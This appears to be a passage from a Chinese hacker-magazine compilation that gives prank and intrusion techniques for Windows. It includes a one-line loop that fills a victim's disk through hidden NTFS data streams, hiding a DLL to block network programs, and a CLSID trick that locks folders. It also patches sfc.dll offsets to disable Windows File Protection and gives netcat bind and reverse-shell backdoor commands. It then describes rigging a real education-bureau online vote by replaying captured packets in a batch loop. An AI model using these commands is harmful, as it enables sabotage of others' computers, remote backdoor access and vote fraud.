

为了不让别人发现这个文件，你可以打开“开始/运行”，在里面输入 `attrib +r +s +h 文件路径\ws2_32.dll` 来给这个文件加上只读、系统和隐藏属性。恢复方法是把这个“ws2_32.dll”文件夹删除，否则即使重新安装 QQ 也是没有用的。这个方法不仅对 QQ 有效，只要是访问网络的程序都可以用“ws2_32.dll”来阻止其运行，像即时通讯软件、联众世界、浩方对战平台、网络游戏等。

### 二、我的硬盘空间呢？

现在的电脑，80GB 的硬盘空间都不够用，要是几十 GB 的空间再莫名其妙地丢了，是挺让人恼火的。下面我们就用垃圾文件把别人的硬盘填满。不同的是，我教大家的方法只要一句命令就可以把对方的磁盘填得满满的，并且对方根本找不到我们的垃圾文件、无法删除，也就是说他的这块磁盘空间是很难恢复回来的。

> 只要满足一个前提条件，就是对方用的是 NTFS 文件系统，因为我们要利用的是 NTFS 数据流。NTFS 支持一个文件中包含多个数据流，利用它可以不重构造文件就给一个文件添加额外信息，而这些信息是不会被显示出来的，是完全隐藏的，但它们确确实实占用着磁盘空间。

我们可以做一个典型的实验：新建两个文本文件，随便写上内容，分别命名为 1.txt、2.txt；然后进入 cmd，输入命令 `type 1.txt >2.txt:1.txt`，这时你打开 2.txt 仍是原内容，且大小、创建修改时间等都没变化。此时你可以删除 1.txt，然后输入命令 `Notepad.exe 2.txt:1.txt`，这时候打开的却是 1.txt 的内容。这是因为我们把 1.txt 的内容作为数据流附加到了 2.txt 里，2.txt 是宿主文件。

```
for /L %i in (1,1,100000) do type %systemroot%\system32\cmd.exe >> %systemroot%\system32\cmd.exe:%i.exe
```

上面这个命令的作用就是把 cmd.exe 作为数据流附加到它本身。命令里的“100000”是执行次数，cmd.exe 大小约 454KB，也就是说这条命令会写入大量垃圾数据。实际操作中可换成更大的文件，越大越快把磁盘写满。万一你的磁盘也被“塞”了，解救办法就是找到宿主文件并删除它，但若不知道宿主文件名，恢复会很困难。

### 三、文件夹“没了”

这里的“没了”并不是说删除，而是让一个文件夹无法打开。方法很简单，利用 Windows 的另一个特性：CLSID（类标识）。它是一个 128 位长的符号代码，Windows 靠它来标识不同类型对象并决定打开方式。早期可用类标识隐藏文件夹，后来在 XP/2003 时代已不灵。若类标识出现在属性页，可去掉后恢复正常。这里有个鲜为人知的特例：Lnk 快捷方式类标识 `{00021401-0000-0000-C000-000000000046}`。

Windows 版本中都是固定类标识，属性页里也不可以把名字改回来，如图4所示。你也可以在注册表的 `HKEY_CLASSES_ROOT\.lnk\Shellex` 处找到。只要你重命名文件夹，在文件夹的名字后面加上一个“.”和这个特殊的类标识（如图3所示），这个文件夹就会立刻变成一个没有任何属性的快捷方式。





其实要打开这个文件夹也并不是很难，只是不能用 Windows 工具了。这时要想再打开这个文件夹，只能借用其他工具，比如 WinRAR。你可以用 WinRAR 打开这个文件夹，然后在 WinRAR 中将这个文件夹重新命名，去掉文件夹的类标识，这样文件夹就恢复正常了。

### 四、总结

在此先介绍这三招，相信如果使用这三招去整人的话，也足够让别人哭的了。但我们的目的并不完全是为了去整人，关键还是在玩的过程里学到知识，增强对 Windows 系统的了解，从而使自己得到提高。

> 编者按：整蛊三式对经常玩黑的朋友来说不算什么新鲜事，但对菜鸟来说是有很大帮助的，而且这三式在病毒身上也能体现出来，如利用加载 DLL 文件的优先级、通过 NTFS 数据流来躲杀毒软件等等。你有被作弄过吗？如果有，相信看完文章后你不会再被作弄了。

## 真正关闭系统的文件保护功能

在网上总看到一些关于“禁止系统文件保护功能”的方法，一般说法是将 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Winlogon` 下 `SFCDisable` 的值从 0 改为 `FFFFFF9D`，然后重新启动计算机即可。可此方法我实验过 N 次了，始终没有成功过，后来经过高人指点我才终于找到了成功的方法。好，废话不多说了，我们的实验现在开始。

## 实验一 手动修改文件关闭系统文件保护功能

想手动修改文件必须修改两处地方，光上面提到的一处是不行的。两处如下：一是修改 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Winlogon` 下 `SFCDisable` 的值；二是修改 `%SystemRoot%\system32\sfc.dll`。

- 先将 `%SystemRoot%\system32\sfc.dll` 复制一份到 D 盘；
- 用 UltraEdit 将 D 盘下的 sfc.dll 打开，并找到图1所示的位置 6210，将值 8BC6 改成 9090（如图2）；
- 用光盘或者软盘引导计算机进入 DOS 模式；
- 在 DOS 模式中输入两条命令；
- 重新启动计算机。

```
ren c:\winnt\system32\sfc.dll sfcbak.dll
copy d:\sfc.dll c:\winnt\system32\
```

> 小提示：我的操作系统是 Windows 2000 XP2，如果你是其他 Windows 版本，那么位置可能不一样，具体可参考图3找到正确位置。





| 系统版本 | 修改位置 |
|---|---|
| Windows 2000 SP1 及以下 | 不需要修改 |
| Windows 2000 SP2 | 将 6211 处的 8BC6 改成 9090 |
| Windows 2000 SP3 | 将 6211 处的 8BC6 改成 9090 |
| Windows 2000 SP4 | 将 62D8 处的 8BC6 改成 9090 |
| Windows XP | 将 E2B8 处的 8BC6 改成 9090 |
| Windows XP SP1 | 将 E3BB 处的 8BC6 改成 9090 |
| Windows XP SP2 | 将 ECE9 处的 33C0 改成 EB01 |



此时当你进入操作系统后，你会发现文件保护功能已经关闭了。我们可以验证一下，我将 `c:\winnt\system32\cmd.exe` 改为了 `111cmd.exe`，此时我再在运行中输入“cmd”的时候会出现如图4所示的界面。

记得我以前将 cmd.exe 改名为 111cmd.exe 后，过几秒钟操作系统又会从 `c:\winnt\system32\dllcache` 里面复制一份 cmd.exe 到 `c:\winnt\system32` 下，这样一来我们的修改就白费了。网上也有朋友说使用如下命令：`sfc /PURGECACHE` 可以达到关闭系统文件保护功能的目的，此方法的宗旨是清除 `c:\winnt\system32\dllcache` 下所有文件，这样一来如果你修改了 `c:\winnt\system32` 下的文件，操作系统将不能从缓存中自动恢复。

## 实验二 使用工具关闭系统文件保护功能

上面的修改步骤是不是感觉很烦啊，又要修改注册表又要修改系统文件，对于一般的菜鸟朋友来说显然比较困难，所以在这里我推荐给菜鸟朋友们一个很不错的工具：XPlite。安装并注册后界面如图5所示。在图5中我们发现“Windows Files Protection”为“已开启”状态，如果我们要关闭文件保护功能只要点下“已关闭”然后按下“应用”即可。



- `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Winlogon` 下 “SFCDisable” 的值从 `FFFFFF9D` 改为 0。
- 重新启动计算机并进入 DOS 模式，输入如下命令：`copy c:\winnt\system32\sfcbak.dll sfc.dll`，即用以前备份的文件覆盖现在的文件。
- 对于实验二的恢复方法：打开 XPlite，选择“已开启”再点下“应用”；重启计算机。

> 编者感言：系统文件保护功能时刻保护着系统的安全，但其自身并不安全。本文从应用角度介绍了如何关闭其保护功能。

## NC 也能充当 QQ

从本文你可以学到：1、了解 NC 的基本参数；2、使用 NC 充当 QQ 进行文字聊天、传文件以及多人聊天。

### 一、前言

QQ 给我们的日常生活带来了方便，如果某天 QQ 不能使用了怎么办？本文就用 NC 来充当一回 QQ。

### 二、实验环境

我在虚拟机上做实验，我本地 IP 是 169.254.124.239，虚拟机 IP 是 169.254.252.231。实验前先 PING 确认互通。

### 三、实验

### 实验一 用 NC 进行文字聊天

```
nc -vv -l -p 555
```

```
nc 169.254.124.239 555
```







### 实验二 用 NC 传文件

```
接收端：nc -l -p 666 > c:\1.txt
发送端：nc 169.254.252.231 666 <1.txt
```



### 四、总结

当然，NC 的功能远不止这些，还有许多其他的强大功能，比如用 NC 扫描对方开的端口，用 NC 做远程后门等。在这里为了方便大家记忆，我列举出来一些其他功能以供大家参考：

1. 用 NC 扫描对方端口的命令是：`nc -v 210.28.177.10 135`，`nc -v -z 210.28.177.10 135-140`，`nc -v -z -u 210.28.177.10 135-140`。  
2. 用 NC 做 TELNET 后门的命令是：本地主机 `nc 210.28.177.10 555`；目标机 `nc -e cmd.exe -l -p 555`。  
3. 用 NC 做反弹后门的命令是：本地主机 `nc -l -p 555`；目标机 `nc -e cmd.exe 210.28.177.1 555`。

> 编辑点评：读者在进行尝试的时候请注意关闭掉自己的防火墙，或对防火墙中的相关规则进行设置，不然以上的操作就会被防火墙封杀。利用 NC 模拟 QQ 的功能毕竟太麻烦，不过在入侵的应用中还是十分重要的。

## 你想要多少票？——对投票系统的突破

- 从本文你可以学到：
- 如何阻止 cookie 记录
- 抓包和发包的利用
- 循环批处理的写法
- 突破未知系统的一般思考方法

### 一、引子

最近我市教育局搞了个课堂教学实录大赛，由我市清新生活资讯网将课改教学比赛录像在网上连续滚动播放，组织社会各界和学生家长观看，然后由学生家长投票，根据得票多少排序，确定入围者。

### 二、踩点

开始，点击投了一票，没问题，再点时出现“对不起，你已经投过票了，不能再投票了”这样一个对话框，如图1所示。



### 三、实战

于是，我想出一办法进行测试：先关闭浏览器，然后再打开，发现又能投票了，便再次投了一票。再思考后，决定尝试不记录或不读取 cookie。

在 IE 的 Internet 选项中，选择“隐私”，将滑动条拉至顶端即“阻止所有 cookie”，应用并确定，如图2所示。



几千次……怕不怕鼠标坏掉啊？我这人能懒就懒，宁可多动脑也要少动手，从网上找了个“鼠标自动点击器”设置一下，开点，一会儿工夫就上百票了，呵呵。什么？你没找到？那我们再换种方法。投票不就是发送一次数据包吗，我们可以将这些数据包用 WinSock Expert 抓下来，用 nc 提交来完成投票。为省力，我们还可以写一个使用了循环的 bat 批处理来完成重复投票。如图3、4、5、6、7所示。



图3  WinSock Expert 抓包



图4  抓包的数据存为 1.txt 文本文件



图5  用 nc 试提交抓包数据



图6  建立批处理文件进行重复提交



图7  执行批处理重复提交

让哥们儿看了一下他的得票数，吓了他一大跳，不等我开口就硬是要请我吃饭，哈哈。

